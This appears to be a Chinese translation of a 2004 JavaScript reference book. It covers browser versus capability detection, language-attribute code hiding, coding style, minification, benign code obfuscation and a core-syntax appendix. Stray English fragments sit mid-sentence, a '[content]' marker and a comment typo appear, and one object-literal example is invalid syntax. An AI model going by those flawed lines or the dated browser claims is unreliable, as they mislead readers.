当你退一步思考时，从能力检测或浏览器检测中得出的结论很容易被证明是错误的。在能力检测方面，回顾[第17章](#)可知，**navigator.plugins** 的存在绝不保证脚本能够探测特定插件的支持情况。Internet Explorer 不支持插件探测，但仍然将 **navigator.plugins[]** 定义为 **document.embeds[]** 的同义词。从浏览器检测中得出结论也同样危险。虽然 Opera 具有伪装成 Mozilla 或 Internet Explorer 的能力（通过更改其 **userAgent** 字符串），但 Mozilla 和 Internet Explorer 都实现了许多 Opera 中不存在的功能。

虽然这里显然有一些值得认真考虑的问题，但具体应该如何应对并不明确。我们不倾向于推荐某一种技术而非另一种，而是列出每种技术的一些优缺点，并建议大多数应用程序同时结合使用能力检测和浏览器检测。

能力检测的优点包括

- 你无需为各种浏览器版本和平台组合编写繁琐的逐案代码。
- 使用第三方浏览器或其他替代浏览器（如文本浏览器）的用户将能够利用他们原本因 **userAgent**（或相关）字符串不被识别而无法使用的功能。能力检测是"前向安全的"，因为只要新出现的浏览器支持你所利用的功能，无需修改代码即可获得支持。

能力检测的缺点包括

- 浏览器表面上支持某个特定功能，并不保证该功能的行为与你认为的一致。例如，注意 Internet Explorer 中的 **navigator.plugins[]** 是可用的，但不提供任何数据。
- 支持某一特定功能并不意味着一定支持相关功能。例如，完全有可能支持 **document.getElementById()** 却不支持 **Style** 对象。验证你打算使用的每个功能可能相当繁琐。

浏览器检测的优点包括

- 一旦正确确定了用户的浏览器，你就可以相对自信地推断对各种功能的支持情况，而无需显式检测你打算使用的每个功能。

浏览器检测的缺点包括

- 对各种功能的支持在不同平台上往往差异很大，即使是同一版本的浏览器也是如此（例如，Internet Explorer 在 Mac OS 平台上不支持 DHTML 行为，因为 Mac OS 未实现它们）。
- 你必须为每个你打算支持的浏览器或浏览器类别编写逐案代码。随着新版本和新浏览器不断进入市场，这种做法看起来越来越不具吸引力。
- 使用第三方浏览器的用户可能会因为 **userAgent** 不被识别而无法使用其浏览器实际支持的功能。
- 浏览器检测不一定是"前向安全的"。也就是说，如果新版本的浏览器或全新的浏览器进入市场，你很可能会被要求修改脚本以适应新的 **userAgent**。
- 无法保证会传输有效的 **userAgent** 字符串。
- 无法保证 **userAgent** 值没有被伪造。

DOM 的出现为简化这些问题带来了希望。在本版出版时（2004年），超过75%的用户的浏览器支持大部分（即使不是全部）常用的 DOM0 和 DOM1 功能（Internet Explorer 6+、Netscape 6+ 和 Mozilla 1+）。虽然这个数字还会增长，但不能保证你的用户都是"普通"用户。此外，如果你的站点必须与用户群体保持最大兼容性（例如，你在运营一个电子商务网站），你就别无选择，只能进行某种能力检测或浏览器检测来兼容旧版浏览器。

我们提供以下指导原则来帮助你做出决定：

- 标准功能（如 DOM0 和 DOM1）最好使用能力检测。这基于一个假设：除非完整实现了标准，否则对标准的支持是相对无用的。此外，这允许使用第三方标准兼容浏览器的用户无需浏览器厂商控制市场或其 **userAgent** 被识别即可使用这些功能。
- 对专有功能的支持最好使用浏览器检测来确定。这源于以下事实：此类功能通常难以正确地进行能力检测，而且你可以相当容易地确定浏览器的哪些版本和平台支持相关功能。

[content]
这些指导原则并非 capability 与浏览器检测之争的定论。仔细考虑项目需求和目标用户，必须成为方程中非常重要的因素。无论你的选择是什么，务必牢记，还有另一个工具可以加入你的防御性编程武器库，以完成同样的任务。

### 代码隐藏

浏览器应当忽略带有其无法识别的 **language** 或 **type** 属性的 `<script>` 标签的内容。我们可以利用这一点，在文档中包含一连串的 `<script>` 标签，每个针对特定的语言版本。在标记中较早出现的 `<script>` 标签针对功能有限的浏览器，而按顺序靠后的则可以针对越来越具体、更现代的浏览器。

关键思路在于，同时存在两种代码隐藏。通过将包含高级功能的后续脚本用带有适当 **language** 属性的元素包裹起来（例如 **JavaScript1.5**），它们的代码对较原始的浏览器是隐藏的，因为这些脚本会被直接忽略。同时，较原始的代码也可以对更高级的浏览器隐藏，方法是用后续标签中找到的新定义替换旧定义。

为了更清楚地说明这个概念，假设我们想在支持 DOM 的页面上使用一些 DOM 代码，但在缺乏这种支持时，也希望优雅降级到更原始的非标准 "DHTML" 功能。我们可以使用以下代码，它根据浏览器支持的语言版本，重新定义 *writePage()* 函数以包含高级功能：

```
<script language="JavaScript">

<!--

function writePage()

{

   // code to output primitive HTML and JavaScript for older browsers

}

//-->

</script>

<script language="JavaScript1.3">

<!-

function writePage()

{

   // code to output more advanced HTML and JavaScript that utilizes the DOM

}

//-->

</script>

<script language="JavaScript">

<!--

// actually write out the page according to which writePage is defined

writePage();

//-->

</script>
```

因为更现代的浏览器会解析第二个 `<script>`，所以 *writePage()* 的原始定义被隐藏了。同样，较旧的浏览器不会处理第二个 `<script>`，因为它们无法识别其 **language** 属性。

> **注意**：*虽然 **language** 属性被认为是 hovering-standard（非标准的），但你可以看到它比标准的 **type** 属性灵活得多，因此该属性仍被广泛使用。*

如果你记住表 23-5 中给出的 **language** 属性指导原则，就可以使用这种技术设计出 surprisingly powerful 的级联（稍后即将演示）。

#### 表 23-5：主要浏览器识别的 language 属性

| language 属性 | 支持的浏览器 |
|---|---|
| **JScript** | Internet Explorer 的所有可脚本化版本和 Opera 5+ |
| **JavaScript** | Internet Explorer、Opera 和 Netscape 的所有可脚本化版本 |
| **JavaScript1.1** | Internet Explorer 4+、Opera 3+、Mozilla 和 Netscape 3+ |
| **JavaScript1.2** | Internet Explorer 4+、Opera 3+、Mozilla 和 Netscape 4+ |
| **JavaScript1.3** | Internet Explorer 5+、Opera 4+、Mozilla 和 Netscape 4.06+ |
| **JavaScript1.5** | Opera 5+、Mozilla 和 Netscape 6+ |

> **注意**：*Opera 3 会解析任何 **language** 属性以 "JavaScript" 开头的 `<script>`。*

为了瞥见 **language** 属性赋予我们的强大功能，假设你想为古老的浏览器、Netscape 4、Mozilla 和 Internet Explorer 4+ 分别包含独立的代码。你可以通过以下方式实现：

```
<script language="JScript">

<!--

// set a flag so we can differentiate between Netscape and IE later on

var isIE = true;

//-->

</script>

<script language="JavaScript">

<!--

function myFunction()

{

    // code to do something for ancient browsers

}

//-->

</script>

<script language="JavaScript1.2">

<!--

if (window.isIE)

{

	function myFunction()

	{

		// code to do something specific for Internet Explorer 4+

	}

}

else

{

	function myFunction()

	{

		// code to do something specific for Netscape 4

	}

}

//-->

</script>

<script language="JavaScript1.5">

<!--

function myFunction()

{

	// code to do something specific for Mozilla and Opera 5+

}

//-->

</script>

<noscript>

<strong>Error:</strong> JavaScript not supported

</noscript>
```

我们仅使用 **language** 属性和一点点巧思，就成功地为一个跨浏览器的函数 *myFunction()* 定义了四种不同的实现！结合一些简单的浏览器检测，这种技术确实可以非常强大。

> **注意**：*务必记住 **language** 属性在 HTML 4 中已被弃用，因此使用此技巧时，不要期望你的页面能通过严格的 HTML 4 或 XHTML 验证。好处是，尽管它已不再 officially a part of the language，但所有现代浏览器 continues to support the attribute。*

记住，为较旧的浏览器或禁用了 JavaScript 的浏览器包含 `<noscript>` 始终是良好的风格。我们这里提供了一个非常基础的 `<noscript>` 示例，但如果我们遵循非常防御性的编程风格，本书中的每段代码后面都应该合理地跟随一个 `<noscript>`，表明需要 JavaScript、提供页面的替代功能，或表明发生了严重错误。为了简洁和清晰，我们在大多数情况下省略了这样的 `<noscript>`，但对于 Web 上的实时文档，我们总是会包含它们。有关 `<noscript>` 的快速复习，请参见第 1 章。现在我们将注意力转向被认为是良好编码风格的一般实践。

### 编码风格

由于 JavaScript 可以轻松地用于多种任务，开发者在急于实现时往往忽视良好的编码风格。这样做往往会在以后面临 mysterious bugs 或代码维护任务、无法轻松理解自己代码的含义或意图时，回来困扰他们。培养良好的编码习惯可以通过为脚本带来清晰性和一致性来减少此类问题。

尽管我们在整本书中强调了什么是良好的编码风格，但我们在表 23-6 中总结了一些关键方面。我们无法足够强调在进行大型开发项目时良好风格的重要性，但即使对于较小的项目，良好的风格也能产生 serious difference。你可能唯一（可能）希望不拘泥于编码风格的时候是在压缩脚本以提高速度时，但话又说回来，你可能想让工具为你做这件事，而自己编写 nice descriptive code。

#### 表 23-6：良好编码风格指导原则

| JavaScript 方面 | 建议 |
| :--- | :--- |
| 变量标识符 | 使用驼峰式命名法和描述性名称，以提示变量可能预期的值。适当的变量名称通常由一个或多个名词组成。 |
| 函数标识符 | 使用驼峰式命名法和描述性名称，以表明它们执行的操作。适当的函数名称通常由一个或多个动词组成。 |
| 变量声明 | 避免隐式声明的变量，因为它们会污染全局命名空间并导致混乱。始终使用 **var** 在尽可能具体的作用域中声明变量。尽可能避免全局变量。 |
| 函数 | 通过将需要修改的值包装在复合类型中来按引用传递。或者，返回变量应该采用的新值。避免从函数内部更改全局变量。在文档的 `<head>` 或链接的 .js 库中声明函数。 |
| 构造函数 | 通过将标识符的首字母大写来表明对象是构造函数。 |
| 注释 | 慷慨地使用注释。复杂的条件判断应该始终注释，函数也应该如此。 |
| 缩进 | 将每个块比包含它的块缩进两到五个空格。这样做可以提供关于嵌套深度和 **if/else** 等结构之间关系的视觉提示。 |
| 模块化 | 尽可能将脚本拆分为外部链接的库。这样做有助于代码重用并简化维护任务。 |
| 分号 | 使用它们。不要依赖隐式分号插入。 |


 ## 加速你的代码

开发人员尝试通过各种方式来减少页面下载和渲染所需的时间。最明显的方法是*压缩*（crunching），即删除文件中多余的空白字符（因为这些空白在浏览器中会被折叠或忽略），并将长标识符替换为更短的标识符。其假设是服务器向客户端传输的字符会更少，因此下载速度应该会成比例地提高。网络上有许多执行压缩的工具，商业开发系统也可能打包提供此功能。

一些工具（如 W3Compiler (**www.w3compiler.com**)）将压缩提升到了新的水平。它们不仅执行空白字符删除，还会对 JavaScript、CSS 和 HTML 应用代码转换，同时保留页面的逻辑和功能。这类特殊的优化工具甚至可能会重新排列你的代码，并根据页面的性能考虑将脚本合并到外部 .js 文件中，或者将其内联为一个大的 **\<script>** 代码块。所有这些技术都试图通过减小代码体积来改善下载时间，但不要忘记运行时优化。如果你的脚本执行大量对象或页面 DOM 操作，可以考虑启动 Venkman 调试器并对代码进行性能分析，以寻找改善运行时执行的方法。

### 保护你的代码

如果你担心别人窃取你的脚本用于他们自己的网站，那么你可能不应该使用 JavaScript 来实现。由于 JavaScript 是一种直接包含在 (X)HTML 文档中的解释型语言，在当前的网络范式下，你的用户对你的源代码拥有无限制的访问权限。虽然你可以通过将代码放在外部链接的 .js 文件中来对初级用户隐藏代码，但这样做肯定无法阻止那些决心检查或"借用"你代码的人。JavaScript 没有内联在页面中并不意味着它无法访问。将外部 .js 库加载到调试器中、从浏览器缓存中检索它，或者使用浏览器通过直接 URL 下载它，都是非常容易的。

保护 JavaScript 代码的一个部分解决方案是使用代码*混淆器*（obfuscators）。混淆器读取 JavaScript（或网页）并输出功能等效的代码版本，这些代码被（据称）打乱到无法识别的程度。混淆器通常与压缩器打包在一起，但网络上也有许多独立的混淆器可用。不过要小心：良好的混淆通常以牺牲良好的压缩为代价。真正难以解读的代码甚至可能比原始代码更大！为了说明这个概念，我们对以下 HTML 和 JavaScript 代码片段使用混淆器：

```
<a href="#" onclick="alert('No one must know this secret!')">This is a secret link!</a>
```

混淆器的结果可能是

```
<script type="text/javascript">var enkripsi="$2B'$31isdg$2E$33$32$33$31nobmhbj$2E$33'mdsu$39$36On$31nod$31ltru$31jonv $31uihr$31rdbsdu$30$36$38$33$2DUihr$31hr$31'$31rdbsdu$31mhoj$30$2B.'$2D"; teks=""; teksasli="";var panjang;panjang=enkripsi.length;for (i=0;i<panjang;i++) teks+=String.fromCharCode(enkripsi.charCodeAt(i)-1); teksasli=unescape(teks);document.write(teksasli);</script>
```

这段混淆后的代码替代了你文档中的原始代码，信不信由你，它完全正常工作，如图 23-10 所示。

图 23-10：混淆代码在功能上与原始代码等效。

使用混淆代码有一些缺点。首先是混淆通常会使代码体积大幅增加，因此隐蔽性是以下载速度为代价的。其次，虽然代码混淆可能看起来是一个有吸引力的途径，但你应该意识到反向混淆总是可能的。一个专注且聪明的对手最终能够"解除"混淆，获得原始代码（或一个更整洁的功能等效版本），无论你应用什么混淆技术。不过，当你需要向初级或没有动机的窥探者隐藏功能时，混淆仍然可以是一个有用的工具。它肯定比仅仅依赖外部 .js 文件要好。

注意 *许多开发人员将混淆称为"加密"。虽然这样做很可能会让密码学家感到不适，但这个术语已被广泛使用。在网络上搜索这类工具时，使用"加密"而不是"混淆"通常会有所帮助。*

注意 *Microsoft Script Engine 5+ 附带了一项允许你加密脚本的功能。加密后的脚本可以被 Internet Explorer 5+ 自动解密和使用。然而，这项技术仅适用于 Internet Explorer，因此使用它并不是一种值得推荐的做法。*

偏执的开发人员可能希望将必须不惜一切代价保护的功能转移到更合适的技术中，也许是插件、ActiveX 控件或 Java 小程序。然而，这样做实际上也无法解决问题，因为二进制文件和字节码都经常被成功逆向工程。不过，这确实使绝大多数潜在窃取者无法触及这些代码。

### 总结

JavaScript 错误有多种形式，从简单的*语法错误*到与下载相关的间歇性错误，甚至是产生程序员未预期结果的语义错误。为了捕获错误，JavaScript 程序员采用典型的调试技术，如打开错误消息和输出详细的状态信息来追踪逻辑错误，但更好的方法是使用专门为该任务设计的程序，即*调试器*（debugger）。

与其他程序员一样，JavaScript 专业人员应该始终假设错误会发生，并采用防御性编程来解决它们。代码隐藏、异常处理以及像 `<noscript>` 标签这样的简单想法应该是每个 JavaScript 开发人员工具库的一部分。然而，在 JavaScript 程序员努力采用良好的编码实践来提高代码质量和可维护性的同时，他们可能会发现这些实践往往与性能和安全性背道而驰。用于"压缩"代码以改善下载或混淆源代码以防止随意窥探的工具，对于复杂脚本来说当然是个好主意，但开发人员需要记住，决心的窃贼能够挫败他们几乎所做的任何努力。随着 JavaScript 的成熟，编程实践无疑也会成熟。

# 第七部分：附录

## 章节目录

- 附录 A：核心语法快速参考
- 附录 B：JavaScript 对象参考
- 附录 C：JavaScript 保留字

## 附录 A：核心语法快速参考

核心语言特性的语法在本节中介绍。此处数据旨在作为快速参考，示例将保持在最低限度。如需对每个项目进行更完整的讨论，请参阅本书的相应章节。我们的约定如下：

- *斜体文本*用于表示关键术语或短语，也表示某些指定语法或词汇单元的占位符，如表达式、语句或字符序列。
- **粗体文本**用于表示语言关键字或保留字。
- [方括号文本]用于表示可选的语法单元。注意，[unit1] [unit2] 允许 unit1 和 unit2 同时缺失；或 unit1 后跟 unit2；或仅 unit1；或仅 unit2；而 [unit1 [unit2]] 允许 unit1 和 unit2 同时缺失；或仅 unit1；或 unit1 后跟 unit2。唯一的例外是在数组和对象的讨论中，这需要使用"真正的"方括号。
- 省略号 (...) 用于以自然方式表示前一个单元的重复。
- ⊗ 用于表示通用运算符。

你可以在 www.ecma.ch 找到 ECMAScript 的完整规范，这是 JavaScript 的核心，当前地址为 http://www.ecma-international.org/publications/standards/Ecma-262.htm。但请注意，本附录中讨论的某些语言方面可能是浏览器厂商实现的临时标准的一部分，而在 ECMA 规范中找不到。

### 语言基础

以下要点是 JavaScript 的核心原则：

- 在正则表达式字面量或字符串之外，多余的空白字符被忽略。
- 语句以分号终止。
- 分号会自动插入到包含完整语句的行中。（换行意味着完整语句的分号。）
- 数据是弱类型的。
- 标识符引用使用词法（静态）作用域解析。唯一的例外是 **RegExp** 对象的类属性，它们是动态作用域的。
- 索引从零开始枚举。
- 有四种类型的可用对象：内置对象、宿主（浏览器）对象、文档对象和用户定义对象。
- 它是一种基于原型的面向对象语言（在其当前版本中*不是*基于类的）。
- 源代码是解释执行的。
- 注释使用 C++ 内联注释样式 // 或 C 样式块注释 /* */。
- 在大多数情况下，I/O 仅限于与 Web 文档和用户的交互（默认情况下没有本地文件系统或网络访问）。

#### 语言版本

各种核心语言的版本及其关系列在[表 A-1](#)至 A-6 中。

##### 表 A-1：JavaScript 的标准版本


| 标准版本 | 描述 |
|---|---|
| ECMAScript 第1版 | JavaScript的第一个标准化版本，大致基于JavaScript 1.0和JScript 1.0。 |
| ECMAScript 第2版 | 修正了第1版中错误的标准版本（包含一些非常小的改进）。 |
| ECMAScript 第3版 | 基于ECMAScript第2版的更高级语言标准。包括正则表达式和异常处理。广泛使用中。 |
| ECMAScript 第4版 | 在撰写本文时尚未完成的新标准。 |

##### 表 A-2：网景语言与浏览器版本的对应关系

| 语言版本 | 浏览器版本 |
|---|---|
| JavaScript 1.0 | Netscape 2 |
| JavaScript 1.1 | Netscape 3 |
| JavaScript 1.2 | Netscape 4.0–4.05 |
| JavaScript 1.3 | Netscape 4.06–4.7 |
| JavaScript 1.4 | 无 |
| JavaScript 1.5 | Netscape 6/7, Mozilla 1.0 |
| JavaScript 2.0 | 未来版本的基于Mozilla的浏览器 |

##### 表 A-3：微软语言与浏览器版本的对应关系

| 语言版本 | 浏览器版本 |
|---|---|
| JScript 1.0 | Internet Explorer 3.0 |
| JScript 3.0 | Internet Explorer 4.0 |
| JScript 5.0 | Internet Explorer 5.0 |
| JScript 5.5 | Internet Explorer 5.5 |
| JScript 5.6 | Internet Explorer 6.0 |

##### 表 A-4：网景与微软实现的大致对应关系

| 语言版本 | 浏览器版本 | 语言版本 | 浏览器版本 |
|---|---|---|---|
| JavaScript 1.0 | Netscape 2.0 | JScript 1.0 | Internet Explorer 3.0 |
| JavaScript 1.3 | Netscape 4.06 | JScript 3.0 | Internet Explorer 4.0 |
| JavaScript 1.5 | Netscape 6/7, Mozilla | JScript 5.5,5.6 | Internet Explorer 5.5,6.0 |

#### 语言标准一致性

##### 表 A-5：网景JavaScript与ECMAScript的关系

| 网景版本 | 标准版本 | 例外情况 |
| :--- | :--- | :--- |
| JavaScript 1.0–1.2 | 非常宽松地遵循ECMA-262第1版 | 许多，特别是在Date对象方面，以及许多额外功能 |
| JavaScript 1.3 | 严格遵循ECMA-262第1版 | 包含一些额外功能 |
| JavaScript 1.4 | 严格遵循ECMA-262第1版 | 包含一些额外功能 |
| JavaScript 1.5 | 严格遵循ECMA-262第3版 | 包含一些额外功能 |
| JavaScript 2.0 | 计划遵循ECMA-262第4版 | 未知 |

##### 表 A-6：微软JScript与ECMAScript的关系

| 微软版本 | 标准版本 | 例外情况 |
| :--- | :--- | :--- |
| JScript 1.0 | 非常宽松地遵循ECMA-262第1版 | 许多，以及一些额外功能 |
| JScript 3.0 | 严格遵循ECMA-262第1版 | 包含一些额外功能 |
| JScript 5.0 | 严格遵循ECMA-262第1版 | 包含许多额外功能 |
| JScript 5.5 | 严格遵循ECMA-262第3版 | 包含一些额外功能 |
| JScript 5.6 | 严格遵循ECMA-262第3版 | 包含一些额外功能 |

### 数据类型

JavaScript的数据类型分为*原始*类型和*复合*类型。原始类型持有简单值，并通过值传递给函数。复合类型持有异构数据（原始和/或复合值），并通过引用传递给函数。**JavaScript是*弱类型*的。**

#### 原始类型

定义了五种原始类型，其中只有三种可以持有有用的数据。这些数据类型在表A-7中进行了总结。

**表 A-7：** *JavaScript原始数据类型*

| 类型 | 描述 | 值 | 字面量语法 |
|------|-------------|--------|----------------|
| **布尔型** | 取两个值之一。用于开/关、是/否或真/假值以及条件判断。 | **true, false** | true, false |
| **null** | 只有一个值。表示数据的缺失，例如，放置在未指定的函数参数中。 | **null** | null |
| **数字型** | 包括整数和浮点类型。64位IEEE 754表示。整数运算通常仅使用32位进行。 | 大到±1.7976×10³⁰⁸，小到±2.2250×10⁻³⁰⁸。出于计算目的，整数范围视为2³¹−1到−2³¹。 | 十进制值（包括指数）、十六进制、八进制 |
| **字符串型** | 零个或多个Unicode（Netscape 6/IE4之前为Latin-1）字符。 | 任意零个或多个字符的序列。 | 单引号或双引号分隔 |
| **undefined** | 只有一个值，表示数据尚未被赋值。例如，`undefined`是读取不存在的对象属性的结果。 | **undefined** | undefined（IE5.5+/NS6+/ECMA3）作为**Global**的属性。以前不可用 |

JavaScript/ECMAScript定义了少量的数值常量，详见表A-8。第7章和附录B讨论的**Math**对象也包含各种有用的值，如**Math.PI**。

**表 A-8：** *有用的数值常量*

| 数值常量 | 描述 |
|------------------|-------------|
| **Infinity** | 无穷大（**Global**的属性） |
| **NaN** | 非数字（**Global**的属性） |
| **Number.NEGATIVE_INFINITY** | 负无穷大 |
| **Number.POSITIVE_INFINITY** | 正无穷大 |
| **Number.NaN** | 非数字 |
| **Number.MAX_VALUE** | 最大可表示值，通常为1.7976931348623157e+308 |
| **Number.MIN_VALUE** | 最小可表示值，通常为5e-324 |

JavaScript还定义了各种字符串类型相关的特殊值，如表A-9所示。这些字符串转义码用于格式化字符串。

##### 表 A-9：字符串转义码

| 转义码 | 值 |
| --- | --- |
| \b | 退格 |
| \t | 水平制表符 |
| \n | 换行符（新行） |
| \v | 垂直制表符 |
| \f | 换页符 |
| \r | 回车符 |
| \" | 双引号 |
| \' | 单引号 |
| \\ | 反斜杠 |
| \OOO | 由八进制数字OOO表示的Latin-1字符。有效范围是000到377。 |
| \xHH | 由十六进制数字HH表示的Latin-1字符。有效范围是00到FF。 |
| \uHHHH | 由十六进制数字HHHH表示的Unicode字符。 |

### 类型转换

JavaScript中会自动进行类型转换。表A-10、A-11、A-12、A-13和A-14显示了数据自动转换为某种类型时的转换规则。在使用本节后面讨论的关系运算符时，经常会发生自动转换。也可以使用表A-15中总结的各种内置方法强制进行类型转换。

#### 表 A-10：原始布尔数据类型转换的结果

| 布尔值转换为 | 结果 |
| --- | --- |
| 数字 | true为1，false为0 |
| 字符串 | true为"true"，false为"false" |
| 对象 | 一个**布尔**对象，其value属性在true时为true，false时为false |

#### 表 A-11：Null数据类型转换的结果

| Null转换为 | 结果 |
| --- | --- |
| 布尔 | False |
| 数字 | 0 |
| 字符串 | "null" |
| 对象 | 不可能。会抛出TypeError异常。 |

#### 表 A-12：数字数据类型转换的结果

| 数字转换为 | 结果 |
| --- | --- |
| 布尔 | 值为0或NaN时为False，否则为true |
| 字符串 | 表示该数字的字符串（包括特殊值） |
| 对象 | 一个Number对象，其value属性设置为该数字的值 |

#### 表 A-13：字符串数据类型转换的结果

| 字符串转换为 | 结果 |
| --- | --- |
| 布尔 | 空字符串（即长度为零的字符串）为False，否则为true。 |
| 数字 | 尝试将字符串解析为数字字面量（例如，"3.14"或"-Infinity"）以获取值。如果解析失败，则为NaN。 |
| 对象 | 一个String对象，其value属性设置为该字符串的值。 |

#### 表 A-14：Undefined数据类型转换的结果

| Undefined转换为 | 结果 |
| --- | --- |
| 布尔 | False |
| 数字 | NaN |
| 字符串 | "undefined" |
| 对象 | 不可能。会抛出TypeError异常。 |

#### 表 A-15：强制类型转换的方法

| 描述 | 详情 |
| --- | --- |
| 数字方法 | toExponential()、toFixed()、toPrecision()用于转换为数字 |
| 全局方法 | parseInt()、parseFloat()用于将字符串转换为数字 |
| 对象方法 | toString()、valueOf()（检索与对象关联的原始值） |
| 构造函数 | 使用String()和Number()构造函数 |

### 复合类型

最通用的复合类型，所有其他复合类型都派生自它，就是Object。一个Object是属性的无序集合，可以使用点运算符访问：

*object.property*

等价于：

```
object["property"]
```

如果该属性是一个函数（方法），则可以调用如下：

```
object.method()
```

*静态*（或*类*）属性通过构造函数访问：

```
Object.property
```

#### 对象创建

对象是使用 **new** 操作符结合一个特殊的构造函数创建的。

```
[var] *instance* = new *Constructor*(arguments);
```

#### 实例属性

一旦创建了对象的实例，设置属性类似于标准赋值，

```
*instance*.property = *value*;
```

并使用标准点 (.) 操作符访问。

```
*instance*.property
```

#### this 语句

**this** 语句指的是"当前"对象，即调用 **this** 时所在内部的对象。其语法如下：

```
this.property
```

它通常在函数内部使用（例如，访问函数的 **length** 属性），或在构造函数内部使用，以访问正在创建的新实例。在全局上下文中使用时，**this** 指的是当前的 **Window**。

#### ECMAScript 内置对象

表 A-16 列出了 ECMAScript 基础语言（如 JavaScript）中的内置对象。这些对象是语言本身的一部分，与由浏览器提供的*宿主*（或*浏览器*）对象不同。请注意，你无法实例化 **Global** 或 **Math** 对象。**Global** 对象甚至无法显式引用。它被定义为最外层的封闭作用域（因此其属性始终可引用）。第 7 章以及附录 B 提供了这些对象及其方法和属性的详细信息和示例。

**表 A-16：JavaScript 内置对象**

| 对象 | 描述 |
|--------|-------------|
| Array | 提供有序列表数据类型及相关功能 |
| Boolean | 对应于原始布尔数据类型的对象 |
| Date | 促进与日期和时间相关的计算 |
| Error | 提供创建各种异常的能力（并包括各种派生对象，如 SyntaxError） |
| Function | 提供与函数相关的能力，例如检查函数参数 |
| Global | 为各种数据转换和评估任务提供普遍可用的函数 |
| Math | 提供比标准 JavaScript 操作符更高级的数学功能 |
| Number | 对应于原始数字数据类型的对象 |
| Object | 提供基本功能（例如显式类型转换方法）的通用对象，所有其他对象都由此派生 |
| RegExp | 允许高级字符串匹配和操作 |
| String | 对应于原始字符串数据类型的对象 |

特别是 **Global** 对象包含各种有用的实用属性和方法。有抱负的 JavaScript 程序员应该非常熟悉表 A-17 中总结的 **Global** 功能。

**表 A-17：Global 对象的属性**

| 属性 | 描述 |
|----------|-------------|
| **decodeURI**(*encodedURI*) | 对字符串 *encodedURI* 进行 URI 解码并返回结果 |
| **decodeURIComponent**(*uriComponent*) | 对 encodeURIComponent 编码的字符串 *uriComponent* 进行 URI 解码并返回结果 |
| **encodeURI**(*string*) | 对字符串 *string* 进行 URI 编码并返回结果 |
| **encodeURIComponent**(*string*) | 对字符串 *string* 进行 URI 编码并返回结果 |
| **escape**(*string*) | 对 *string* 进行 URL 编码并返回结果 |
| **eval**(*x*) | 将字符串 *x* 作为 JavaScript 源代码执行 |
| **Infinity** | 特殊数值 **Infinity** |
| **isFinite**(*x*) | 返回一个布尔值，指示 *x* 是否有限（或在转换为数字时是否产生有限值） |
| **isNaN**(*x*) | 返回一个布尔值，指示 *x* 是否为 **NaN**（或在转换为数字时是否产生 **NaN**） |
| **NaN** | 特殊数值 **NaN** |
| **parseInt**(*string* [*, base*]) | 将 *string* 解析为以 *base* 为基数的数字（除非 *string* 以 "0x" 开头，否则默认为 10），并返回原始数字结果（如果失败则返回 **NaN**） |
| **parseFloat**(*string*) | 将 *string* 解析为浮点数，并返回原始数字结果（如果失败则返回 **NaN**） |
| **undefined** | 对应于原始 **undefined** 值的值（此值通过 **Global** 提供，因为没有 **undefined** 关键字） |
| **unescape**(*string*) | 对 *string* 进行 URL 解码并返回结果 |

#### 数组字面量

JavaScript 支持对象风格和字面量风格的数组。数组字面量使用以下语法（括号是"真实的"括号，不表示可选组件）：

```
[element1, element2, ...]
```

每个 *elementN* 都是可选的，因此你可以使用带有"空洞"的数组，例如：

`var myArray = ["some data", , 3.14, true ];`

你也可以使用 **Array()** 构造函数：

```
var variable = new Array(element1, element2, ...);
```

但请注意，如果只传递一个数字参数，它将被解释为 **length** 属性的初始值。需要注意 JavaScript 中数组和对象之间的密切关系。对象属性不仅可以通过 *objectName.propertyName* 访问，也可以通过 *objectName["propertyName"]* 访问。然而，这并不意味着数组元素可以使用对象样式访问；*arrayName.0* 不会访问数组的第一个元素。

#### 函数字面量

函数字面量使用以下语法：

```
function ([ *args* ])
{
    *statements*
}
```

其中 *args* 是函数参数的逗号分隔标识符列表，*statements* 是零个或多个有效的 JavaScript 语句。

虽然不是严格意义上的字面量，但你也可以使用 **Function()** 构造函数：

```
new Function(["arg1", ["arg2", ... ],"statements"];
```

*argNs* 是函数接受的参数名称，*statements* 是函数体。例如：

`myArray.sort(new Function("name", "alert('Hello there ' + name)"));`

#### 对象字面量

**对象**字面量使用以下语法：

```
{[ prop1: val1 [, prop2: val2, ... ]]}
```

例如：

```
var myInfo = {
    city: "San Diego",
    state: "CA" ,
    province: null,
    sayHi = function() { alert("Hello there") }
}
```

#### 正则表达式字面量

正则表达式字面量（实际上是 **RegExp** 字面量）具有以下语法：

```
/exp/flags
```

其中 *exp* 是有效的正则表达式，*flags* 是零个或多个正则表达式修饰符（例如，"gi" 表示全局和不区分大小写）。

虽然不是严格意义上的字面量，但你可以使用 **RegExp()** 构造函数：

```
new RegExp("exp" [, "flags"])
```

### 操作符

JavaScript 拥有丰富的操作符，与 C/C++ 类似，但为处理弱类型增加了一些，并且由于该语言通常不访问磁盘或内存，也省略了一些次要操作符。

> *注意* 我们在以下操作符分类中做了一些自由发挥。我们相信我们的分类（以及操作符的放置）使操作符更容易理解。

#### 算术运算符

算术运算符作用于数字，有一个例外：+，它是重载的，也提供字符串连接功能。表 A-18、A-19 和 A-20 详细列出了 JavaScript 中的算术运算符。

**表 A-18：二元（双操作数）和自赋值算术运算符**

| 操作符 | 自赋值操作符 | 操作 |
|----------|------------------------|-----------|
| + | += | 加法（也可用作字符串连接） |
| − | −= | 减法 |
| * | *= | 乘法 |
| / | /= | 除法 |
| % | %= | 取模（第一个操作数除以第二个操作数的整数余数） |

**表 A-19：前缀/后缀算术运算符**

| 操作符 | 描述 |
|----------|-------------|
| ++ | 自动递增（将值加一并存储） |
| -- | 自动递减（将值减一并存储） |

**表 A-20：一元（单操作数）算术运算符**

| 操作符 | 描述 |
|----------|-------------|
| + | 对数字没有影响，但会导致非数字转换为数字 |
| − | 取负（更改数字的符号或将表达式转换为数字，然后更改其符号） |

#### 按位运算符

按位运算符以逐位方式操作整数。大多数计算机使用二进制补码表示法存储负数，因此在对负数进行位操作时应格外小心。JavaScript 的大多数使用很少涉及按位运算符，但为了那些有意使用它们的人，我们在表 A-21 中列出。

**表 A-21：二元和自赋值按位运算符**


| 运算符 | 自赋值运算符 | 说明 |
|---|---|---|
| `<<` | `<<=` | 将第一个操作数按位左移第二个操作数的位数，空出的位位置用零填充 |
| `>>` | `>>=` | 将第一个操作数按位右移第二个操作数的位数，空出的位位置用符号位填充 |
| `>>>` | `>>>=` | 将第一个操作数按位右移第二个操作数的位数，空出的位位置用零填充 |
| `&` | `&=` | 按位与 |
| `\|` | `\|=` | 按位或 |
| `^` | `^=` | 按位异或（XOR） |
| `~` | 不适用 | 按位取反是一元运算符，只接受一个值。它将数字转换为32位二进制数，然后将0位反转成1，1位反转成0，再转换回来。 |

#### 逻辑运算符
